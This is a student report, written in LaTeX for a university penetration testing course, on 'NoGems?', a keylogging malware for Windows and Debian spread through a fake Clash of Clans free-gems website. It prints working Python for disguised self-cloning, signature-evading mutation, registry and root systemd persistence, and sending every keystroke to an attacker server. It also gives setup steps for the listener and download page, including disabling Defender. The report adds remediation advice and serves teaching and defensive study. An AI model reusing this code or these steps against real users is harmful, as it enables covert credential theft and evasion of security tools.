\documentclass[a4paper,12pt]{article} % Smaller font size
\usepackage[margin=0.75in]{geometry} % Narrower margins
\usepackage{graphicx}
\usepackage{listings}
\usepackage{hyperref}
\usepackage{amsmath}
\usepackage{caption}
\usepackage{graphicx}
\usepackage{parskip} 
\usepackage{float}
\usepackage[backend=biber,style=alphabetic]{biblatex}
\addbibresource{references.bib}


\title{%
\vspace{-2cm} % Adjust spacing as needed to position the logo

\includegraphics[width=0.35\textwidth]{images/ng_logo.png} \\ % Adjust the width and path to your logo file
\vspace{0.5cm}
NoGems? \\ \vspace{0.5cm}
\large A simple example of a multi-platform, persistent, evasive, and mutating malware}

\author{Alexander Hawking \\ \small 23354512}

\date{} % This removes the date

\begin{document}

\maketitle

\begin{abstract}
This report details the design, implementation, and analysis of a multi-platform malware developed as part of the University of Western Australia's CITS3006 Penetration Testing Unit. The keylogging malware is designed to infect both Windows and Debian-based operating systems, exhibit virus-like properties, establish persistence on the system, mutate itself to evade detection, and exfiltrate data to a remote server.
\end{abstract}

\section*{Introduction}
NoGems? is a simple multi-platform malware designed to demonstrate basic techniques used by malicious software to achieve persistence, evade detection, and exfiltrate sensitive data. The malware targets both Windows and Debian-based systems, leveraging specific features of each platform to remain undetected and maintain functionality. 

This report provides a detailed overview of the design and implementation of NoGems?, the techniques it uses, and the potential security implications of such malware. Additionally, the report discusses limitations in the current implementation and suggests remediation strategies to mitigate the risks posed by NoGems?.

\section*{General Lifecycle Overview}
The lifecycle of NoGems? is designed to simplistically demonstrate common malware features, ensuring persistence, stealth, and functionality across different systems. The general process is as follows:

\begin{itemize}
    \item \textbf{Initial Distribution:} NoGems? is initially distributed through social engineering techniques. The primary method involves a website falsely advertising free gems for the popular mobile game "Clash of Clans."
    
    \item \textbf{Execution:} Upon execution, the malware begins its lifecycle by performing a series of checks and operations to ensure it can maintain persistence on the system. This includes checking for required privileges, cloning itself to a new location, mutating to evade detection, and setting up mechanisms to run automatically at startup.
    
    \item \textbf{Obfuscation and Mutation:} The malware's code is obfuscated using PyArmor before being bundled into an executable with PyInstaller to prevent easy analysis. Each time the malware runs, it clones itself to a new location, appends random bytes to the clone, and modifies itself slightly to avoid detection by signature-based security tools.
    
    \item \textbf{Persistence Mechanisms:} NoGems? ensures its persistence by creating system services or modifying the system registry, depending on the platform. This ensures that the malware will automatically execute every time the system is restarted.
    
    \item \textbf{Keylogging and Data Exfiltration:} The malware then begins its primary operation of keylogging, capturing all keystrokes made by the user and securely exfiltrating this data to a remote server using HTTPS.
    
    \item \textbf{User Notification:} The NoGems? malware is intentionally designed as a demonstration tool rather than a fully malicious program. To reflect this, the malware includes a built-in notification mechanism that informs the user of its presence. Specifically, after every ten keystrokes, the malware triggers a notification alerting the user that their system has been compromised and their keystrokes are being logged. This feature serves to emphasize that NoGems? is an educational example, intended to illustrate common malware techniques without causing real harm to the system or the user's data. The notifications are a safeguard to ensure that users are aware of the malware's activity, aligning with the ethical considerations of demonstrating malware in an academic setting.
    
    \item \textbf{Self-Destruction of Original File:} After the cloned and modified version of the malware is launched successfully, the original executable is deleted to minimize traces of its presence and reduce the risk of detection.
    
    \item \textbf{Reinjection into Startup:} Every time NoGems? runs, it re-clones, mutates, and re-adds itself to the system's startup sequence, ensuring it remains active and persistent.
\end{itemize}

\subsection*{Initial Distribution and Installation}
NoGems? is distributed via a website that falsely advertises the ability to provide free gems for the popular mobile game "Clash of Clans." The website is meticulously designed to appear legitimate, complete with download links for both Windows and Ubuntu/Debian-based operating systems.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.4\textwidth]{images/site.png} 
    \caption{Screenshot of the website offering free Clash of Clans gems.}
    \label{fig:screenshot}
\end{figure}

The social engineering component is crucial here, as users are lured into downloading and executing the malware with the promise of free in-game resources. Once the user downloads and runs the installer, the malware begins its lifecycle by copying itself to a location where it can achieve persistence and evade easy detection.

\subsection*{Attacker Server Setup for Keylogging}
The NoGems? malware is designed to send captured key presses to an attacker's server for further analysis. To achieve this, the attacker must set up a server capable of receiving and logging the incoming data. The server listens on port \lstinline{5000} for HTTP POST requests from the infected machines. Each request contains a single key press, which is then written to a log file on the server.

In this setup:

\begin{itemize}
    \item The server listens for POST requests on the `/log` endpoint. 
    \item Each request contains the `keystroke` data, which is extracted and appended to a log file.
    \item The server uses HTTPS (enabled by `ssl\_context='adhoc'`) to securely and secretly receive data, which helps prevent the interception of keystrokes during transmission.
\end{itemize}

A log file accumulates all captured key presses and their respective times and IPs, which can then be analyzed by the attacker to extract sensitive information, such as passwords, usernames, and other confidential data typed by the victim. The simplicity of this server setup allows it to be deployed quickly and efficiently, enabling the attacker to gather information in real-time as it is typed on the victim's machine.

\section*{Detailed Execution and Platform-Specific Behavior}
While NoGems? follows a similar overall lifecycle on both Windows and Debian-based systems, the specific techniques and methods it employs vary depending on the operating system. This section delves into the detailed execution process of NoGems? on each platform, examining how the malware clones itself, establishes persistence, and carries out its keylogging activities.

\subsection*{1. Cloning and Modification}
Upon execution, the malware begins by cloning itself to a new location, pretending to be an update tool for the default browser of that OS. This process is platform-specific:

\begin{itemize}
    \item \textbf{Windows:} The malware clones itself to the `LocalAppData` folder, selecting a directory that mimics legitimate software (e.g., Microsoft Edge update tool).

\begin{lstlisting}[language=Python, caption={Cloning and Modification of the Malware on Windows}, basicstyle=\ttfamily\scriptsize, breaklines=true]
exe_path = sys.executable
new_location = os.path.join(
    os.getenv('LOCALAPPDATA'), 'Microsoft', 
    f"ms edge v{random.randint(1000,9999)}", 
    'msedge_updater.exe')

os.makedirs(os.path.dirname(new_location), exist_ok=True)
shutil.copyfile(exe_path, new_location)
with open(new_location, 'ab') as f:
    f.write(os.urandom(1024))
\end{lstlisting}

    \item \textbf{Ubuntu/Debian-based Systems:} The malware clones itself to the `/usr/local/bin` directory, mimicking a Firefox update tool.

\begin{lstlisting}[language=Python, caption={Cloning and Modification of the Malware on Ubuntu/Debian-based Systems}, basicstyle=\ttfamily\scriptsize, breaklines=true]
exe_path = sys.executable
random_number = random.randint(1000, 9999)
new_bin_path = f"/usr/local/bin/firefox_updater_v{random_number}"

shutil.copyfile(exe_path, new_bin_path)
os.chmod(new_bin_path, 0o755)
with open(new_bin_path, 'ab') as f:
    f.write(os.urandom(1024))
\end{lstlisting}
\end{itemize}

In both cases, the cloning process includes appending random bytes to the cloned executable, a technique known as mutation. This makes it difficult for signature-based antivirus tools to detect the malware. Below is an example of how the file mutates, resulting in a changed file hash and 'version':

\begin{figure}[H]
    \centering
    
\includegraphics[width=\textwidth]{images/mut1.png} 
    
\includegraphics[width=\textwidth]{images/mut2.png} 
    \caption{Cloned and Mutated Malware}
    \label{fig:clone_modification}
\end{figure}

\subsection*{2. Persistence Mechanism}
The persistence mechanism is platform-specific:

\begin{itemize}
    \item \textbf{Windows:} To ensure the cloned malware runs every time the user logs into Windows, NoGems? adds a new registry entry.

\begin{lstlisting}[language=Python, caption={Adding the Malware to Startup on Windows}, basicstyle=\ttfamily\scriptsize, breaklines=true]
key = reg.HKEY_CURRENT_USER
key_value = r'Software\Microsoft\Windows\CurrentVersion\Run'
with reg.OpenKey(key, key_value, 0, reg.KEY_SET_VALUE) as key_obj:
    reg.SetValueEx(key_obj, exe_name, 0, reg.REG_SZ, exe_path)
\end{lstlisting}

    \item \textbf{Ubuntu/Debian-based Systems:} On these systems, NoGems? creates a `systemd` service to run the malware with root privileges every time the system is restarted.

\begin{lstlisting}[language=Python, caption={Adding the Malware to Startup with systemd on Ubuntu/Debian-based Systems}, basicstyle=\ttfamily\scriptsize, breaklines=true]
service_file = "/etc/systemd/system/firefox_updater.service"
service_content = (
    "[Unit]\n"
    "Description=Firefox Updater Keylogger\n"
    "After=network.target\n\n"
    "[Service]\n"
    "Type=simple\n"
    f"ExecStart={new_bin_path} --fg\n"
    "User=root\n"
    "Restart=on-failure\n\n"
    "[Install]\n"
    "WantedBy=multi-user.target\n"
)

with open(service_file, 'w') as f:
    f.write(service_content)
subprocess.run(["systemctl", "daemon-reload"])
subprocess.run(["systemctl", "enable", "firefox_updater.service"])
\end{lstlisting}
\end{itemize}

\subsection*{3. Keylogging and Data Exfiltration}
Once persistence is established, the malware begins its keylogging operation. The specifics of this operation are largely the same across platforms:

\begin{lstlisting}[language=Python, caption={Keylogging and Data Exfiltration}, basicstyle=\ttfamily\scriptsize, breaklines=true]
def on_press(key):
    global key_press_count
    send_data(key)
    if key_press_count := key_press_count + 1 >= 10:
        show_hacked_message()
        key_press_count = 0

def send_data(key):
    requests.post(server_url, data={'keystroke': str(key)}, verify=False)
\end{lstlisting}

The server URL is predefined, and data is sent without verification of the SSL certificate (`verify=False`), ensuring the data is transmitted even if the server's certificate is invalid.

\subsection*{4. Displaying a Hacked Message}
After 10 keystrokes, the malware displays a notification to the user, informing them that their system has been compromised. The method of notification is platform-specific:

\begin{itemize}
    \item \textbf{Windows:} A message box is displayed.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.4\textwidth]{images/notif.png} 
    \caption{Hacked Message Displayed by NoGems? Malware on Windows}
    \label{fig:hacked_message_windows}
\end{figure}

    \item \textbf{Ubuntu/Debian-based Systems:} A system notification is used instead of a window to avoid errors, as the script runs at startup when the Display environment variable may not be set.

\begin{figure}[h!]
    \centering
    
\includegraphics[width=0.4\textwidth]{images/notif-deb.png} 
    \caption{Hacked Message Displayed by NoGems? Malware on Ubuntu/Debian-based Systems}
    \label{fig:hacked_message_linux}
\end{figure}
\end{itemize}

\subsection*{5. Cleanup of the Original File}
After the cloned and mutated malware is successfully launched, the original executable is deleted from the system to minimize traces and reduce the risk of detection. This step is similar across platforms.

\subsection*{6. Re-execution of Cloned Malware}
Finally, the cloned and mutated malware is executed, and the process repeats itself each time the malware is run. This ensures that NoGems? remains persistent and continues to operate on the infected system across different platforms.

\section*{Common Malware Techniques Demonstrated by NoGems?}

\begin{itemize}
    \item \textbf{Social Engineering for Initial Distribution:} 
    NoGems? employs social engineering as a primary method of distribution. The malware is disguised as a tool that promises free in-game resources (gems) for the popular mobile game "Clash of Clans." This lure is designed to entice users into downloading and executing the malware, demonstrating how attackers can manipulate user behavior to bypass traditional security measures.

    \item \textbf{Privilege Escalation Checks:} 
    Upon execution, NoGems? checks for the necessary privileges to perform its malicious activities. If the malware is not executed with root or administrator privileges, it prompts the user to rerun it with the required permissions. This technique ensures that the malware has the access it needs to fully compromise the system, a common approach in real-world attacks.

    \item \textbf{Persistence Mechanisms:} 
    NoGems? implements persistence mechanisms tailored to the operating system it infects. On Windows, it modifies the system registry to ensure it runs at startup. On Debian-based systems, it creates a `systemd` service that runs with root privileges. Persistence is crucial for malware to survive reboots and maintain control over the infected system, especially in the case of key loggers that aim to capture all users' input.

    \item \textbf{Code Obfuscation and Mutation:} 
    To evade detection by signature-based antivirus tools, NoGems? mutates itself each time it is executed. This mutation involves cloning the executable to a new location and appending random bytes to the file. This technique, combined with obfuscation of the code, makes it more challenging for security tools to identify and remove the malware.

    \item \textbf{Keylogging and Data Exfiltration:} 
    The primary malicious activity of NoGems? is keylogging, where it captures keystrokes from the victim's system and exfiltrates the data to a remote server controlled by the attacker. The captured data is sent via HTTPS, which helps conceal the exfiltration from network monitoring tools that might otherwise detect plain-text transmissions.
\end{itemize}

\section*{Remediation Strategies and the Limitations of NoGems?}

To effectively mitigate the risks posed by malware like NoGems?, the following security solutions can be implemented. These strategies are designed to address the specific constraints and functionalities of NoGems?:

\begin{itemize}
    \item \textbf{User Education and Awareness:} Educating users about the risks of social engineering and the need to verify software legitimacy is crucial in preventing malware like NoGems? from gaining a foothold. NoGems? relies on tricking users into downloading and running it by posing as a legitimate tool. By raising awareness about these tactics, users are more likely to recognize and avoid suspicious downloads, thereby preventing the initial infection.

    Regular training and clear guidelines on identifying phishing attempts and fake software can empower users to make safer choices. This serves as a critical line of defense against NoGems?, which manipulates user trust to execute its malicious payload.

    \item \textbf{Least Privilege Principle:} Enforcing the principle of least privilege restricts users and applications to the minimum permissions necessary for their functions. NoGems? requires elevated privileges to perform its malicious activities, such as modifying the Windows registry or creating a `systemd` service on Ubuntu. By ensuring that users and applications operate with minimal privileges, these actions can be blocked or restricted, prompting user authorization and alerting them to potential threats.

    Implementing least privilege reduces the impact of malware by limiting its access to critical system settings and sensitive data. This principle minimizes the risk of successful attacks and confines the damage caused by malware like NoGems? to a manageable level.

    \item \textbf{Endpoint Detection and Response (EDR) Solutions:} EDR tools are essential for monitoring system behavior in real-time and detecting anomalies indicative of malware activity. NoGems? uses techniques such as modifying registry keys on Windows and creating `systemd` services on Linux for persistence. EDR solutions can identify these unauthorized activities by monitoring system changes and flagging suspicious behavior.

    For example, on Windows, EDR tools like Microsoft Defender detected NoGems? when it attempted to clone itself and modify registry keys, leading to the quarantine of the malicious file. On Ubuntu, however, NoGems? managed to run undetected, illustrating the varying efficacy of EDR solutions across different platforms. This highlights the importance of robust EDR implementations across all operating systems.

    \item \textbf{Network Monitoring and Encryption:} Implementing robust network monitoring is crucial for detecting and blocking data exfiltration attempts made by malware like NoGems?. This malware exfiltrates keystroke data by establishing connections to a remote server. Network monitoring tools can identify unusual traffic patterns, connections to suspicious domains, or unauthorized HTTPS requests.

    For NoGems?, network monitoring could detect its attempts to communicate with a suspicious server or recognize invalid SSL/TLS certificates used to bypass certificate verification. Such monitoring enables timely alerts and responses to potential threats, including blocking malicious traffic and preventing data exfiltration.

    \item \textbf{Application Whitelisting:} Application whitelisting involves creating a list of approved applications that are allowed to run on a system. This approach prevents unauthorized software from executing, effectively blocking malware like NoGems? from running even if it is downloaded onto a machine.

    Since NoGems? would not be included on the pre-approved list of applications, application whitelisting would automatically prevent it from executing. This measure neutralizes the threat before it can cause harm, ensuring that only verified and trusted software runs on the system.

\end{itemize}


\section*{Conclusion}
NoGems? serves as a simplified example of how common malware techniques can be implemented to achieve persistence, evade detection, and exfiltrate data across multiple platforms. While the malware is effective in demonstrating these techniques, it also highlights the importance of robust security measures to protect systems from such threats. By understanding the methods used by NoGems?, security professionals can better anticipate and defend against real-world malware attacks.

\section*{Setting Up and Running NoGems? Malware}

This section provides a brief guide on setting up and running the NoGems? malware. It includes steps for cloning the repository, running the listener and Flask web server, and connecting to them. It is recommended to perform these steps within a virtual machine (VM) for isolation and security purposes

\textbf{NOTE:} The availability of the code publicly will vary, as this is part of a university assessment.

\subsection*{1. Cloning the Repository}

First, clone the NoGems? repository from the source control system. Open a terminal on your host/attacker machine and execute the following command:

\begin{verbatim}
https://github.com/Alex-Hawking/nogems-malware.git
\end{verbatim}

Navigate to the directory containing the cloned repository:

\begin{verbatim}
cd nogems-malware
\end{verbatim}

\subsection*{2. Running the Listener}

The listener is a component of NoGems? that waits for incoming connections and logs the keystrokes. To start the listener, execute the following command in the terminal:

\begin{verbatim}
python3 attacker/listener/listener.py
\end{verbatim}

Ensure that the listener is configured to accept connections on the correct port (5000) and IP address. You may need to adjust the configuration file or command-line arguments based on your setup.

\subsection*{3. Running the download}

To start the download page web server, open a new terminal window (or tab) and run the following command:

\begin{verbatim}
python3 attacker/web/app.py
\end{verbatim}

The  server should start and listen for incoming requests on 8000. Verify that the server is running by checking the output in the terminal.

\subsection*{4. Utilising the malware}

From within your victim machine (VM recommended), navigate to:
\begin{verbatim}
http://<host-ip>:8000
\end{verbatim}

From here you can download and run the malware.

\textbf{NOTE:} on Windows, Defender must be disabled.

\subsection*{5. Recommendations}

For security reasons, it is highly recommended to perform these steps within a virtual machine (VM). This isolates the malware and associated tools from your main operating system, reducing the risk of accidental contamination or system compromise.

\end{document}